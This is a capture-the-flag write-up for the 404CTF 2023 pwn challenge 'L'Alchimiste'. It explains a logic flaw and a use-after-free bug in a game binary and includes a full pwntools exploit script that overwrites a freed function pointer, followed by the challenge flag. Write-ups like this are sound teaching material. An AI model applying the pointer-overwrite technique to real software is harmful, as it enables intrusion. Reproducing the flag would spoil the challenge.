 ```yaml
---
title: CTFs | 404CTF_2023 | Pwn | L'Alchimiste
author: BatBato
date: 2023-06-08
categories: [CTFs, 404CTF_2023, Pwn]
tags: [Pwn, Ghidra, BoF, Use After Free]
permalink: /CTFs/404CTF_2023/Pwn/L_Alchimiste
---
```


# L'Alchimiste

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/06a3eb5c-571f-41f9-93c9-5b7d9914e6df)

For this challenge, we are given [this](https://github.com/Nouman404/nouman404.github.io/blob/main/_posts/CTFs/404CTF_2023/Reverse/l_alchimiste) executable. We can open it on Ghidra and/or run it to understand how it works.

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/94c5dae2-5430-47cc-b15f-062c27f5f2d4)


## Recognition

As we can see, we have multiple options. I first tried to buy a strength potion and to use it multiple time:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/c07af379-31f3-4391-aded-708134021734)

As we can see, we have a double free error. This is because, when we use the strength potion, we call the `useItem` function that does the following:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/353f2dfe-6e0a-4cee-b309-1f5092735677)

As we can see, we free the memory at the location of `param_1+0x10`. If we look at the character creation, we can see that it is the address of the function located after the initial parameter:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/90bd0a23-ad3d-48b4-998e-411d2423819a)

> `param1` is the strength, `param2` is the intelligence and param3 is the gold.
{: .prompt-info}

To better understand why this is a function, we can look at the `buyStrUpPotion` function:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/02b7b3ce-76c8-4099-a7db-67c2d2230dde)

## Increase Stength

As we can see, we set `puVar1` some values and the last value of `puVar1` is the function `incStr` that increase the strength by 10. We can also notice that the function `incStr` is set even if we don't have enough money to buy the strength potion. So we can use repeatedly the option `1` to buy the potion and then use the option with the option `2`. This will allow us to get any amount of strength we want:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/feec0b73-d79f-4137-8ab6-4a30915e84e1)

As we can see, we now have 230 of strength. Let's have a look at how to get the flag... This is what we are here fore XD:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/f90e8daa-a620-422c-b01b-69974267ee73)

## How to get the flag

As we cans see, we need `*param_1 >= 0x96` and `param[1] >= 0x96` where `0x96` is equal to `150` in decimal and those parameters are the strength and the intelligence as we saw earlier.

> Note that `*param` <=> `param_1[0]`.
{: .prompt-info}

We have solved the problem of the strength, but what about the intelligence??? There is no function in the program that calls the `incInt` to do the same thing as for the strength...

## Increase intelligence

After a bit of digging, I found something called `use after free`. As we saw earlier, the memory is free when we call the `useItem` function, but the memory is not set as null before. This is great, at least for us XD.

We now can try to override the address of the function `incStr` with the address of `incInt` after the free of the `useItem`. If we manage to do so, the address of `incInt` will be at the same memory location than the previous `incStr`. Then the call of `useItem` will think that it is calling the `incStr` but it will be calling `incInt`.

Let's see how to this now. For that we need to head back to the `buyStrPotion`. This function will set the address of the `incStr` function int `puVar1[8]` but if we look at the assembly code, we can see that it is at the position `+0x40`.

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/2f3380e8-8b75-40c1-b80f-56535e608d66)

We can then try to override the first `64` (`0x40`) characters and then put the address of `incInt` that can be found in Ghidra. But for this to work, we need to call the option `3` that will do a malloc on the same memory location that was previously free with option `2`. 


## POC

The final code I used is the following:

```python
from pwn import *
warnings.filterwarnings("ignore", category=BytesWarning)
#io = process("./l_alchimiste")
HOST, PORT = "challenges.404ctf.fr", 30944 
io = remote(HOST, PORT)

def getStrength():
	io.recvuntil(">>> ")
	io.sendline("2")
	io.recvuntil(">>> ")
	io.sendline("1")

def checkStrength():
	io.recvuntil(">>> ")
	io.sendline("4")
	text = io.recvuntil("1:")
	print(text)
	if b"FOR: 160" in text:
		return 1
	else:
		return 0

def setInteligence():
	io.recvuntil(">>> ")
	io.sendline("2")

	io.recvuntil(">>> ")
	io.sendline("3")
	io.recvuntil("[Vous] : ")
	io.sendline(b"a"*0x40+p64(0x004008d5))

	io.recvuntil(">>> ")
	io.sendline("1")

def checkInteligence():
	io.recvuntil(">>> ")
	io.sendline("4")
	text = io.recvuntil("1:")
	print(text)
	if b"INT: 160" in text:
		return 1
	else:
		return 0

io.recvuntil(">>> ")
io.sendline("1")
okStr = 0
while okStr != 1:
	getStrength()
	okStr = checkStrength()

okInt = 0 
while okInt != 1:
	okInt = checkInteligence()
	setInteligence()
io.recvuntil(">>> ")
io.sendline("5")
print(io.recvline().decode())
print(io.recvline().decode())
print("Flag: ", io.recvline().decode())
```

If we run it locally, we get:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/f1ef2eed-9294-4934-ad80-88cd4a81f5cc)

As we can see, we get the test flag we created. We can now run it on the remote host and get the flag:

![image](https://github.com/Nouman404/nouman404.github.io/assets/73934639/dd33e70d-8bae-4e3b-b5cf-7991f7eb2607)


The flag is `404CTF{P0UrQU01_P4Y3r_QU4ND_135_M075_5UFF153N7}`

